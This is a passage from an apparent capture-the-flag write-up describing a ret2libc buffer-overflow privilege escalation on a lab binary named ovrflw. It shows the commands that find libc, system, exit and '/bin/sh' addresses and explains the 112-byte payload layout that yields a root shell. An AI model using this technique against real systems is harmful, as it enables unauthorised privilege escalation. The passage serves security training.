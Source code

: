 ```bash

ldd /usr/local/bin/ovrflw
# libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb7605000)

man readelf
readelf -s /lib/i386-linux-gnu/libc.so.6 | grep -E ' system| exit'
# 00033260 exit@@GLIBC_2.0
# 00040310 system@@GLIBC_2.0

strings -a -t x /lib/i386-linux-gnu/libc.so.6 | grep "/bin/sh"
# 162bac /bin/sh

ldd /usr/local/bin/ovrflw
# 0xb7549000
```

<br />
<img src="{{ site.img_path }}/october_writeup/October_47.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/october_writeup/October_48.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/october_writeup/October_49.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/october_writeup/October_50.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/october_writeup/October_51.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/october_writeup/October_52.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/october_writeup/October_53.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

Now that I have all the information I need, I start coding my custom exploit with `python`. The whole idea of taking control of the **EIP** registry, is that I can now inject into it a **payload** that will allow me to run a command using the **system** function with **/bin/sh** as an argument. To achieve my goal I have to set the **payload** to the exact length of characters (**112**) before overwriting the **EIP** register and then concatenate the addresses of **system**, **exit** and the string **/bin/sh** (**in this precise order**), note that these addresses must be calculated from the **libc** address I chose previously. Once my exploit is finished, I run it and I get a shell with maximum privileges that allows me to access the contents of the last flag.

> **system()** address (so execution jumps to it).

> **exit()** address (to ensure the program exits cleanly).

> **/bin/sh** address (argument for system()).

```bash
touch bof_exploit.py
nano !$
cat !$
```
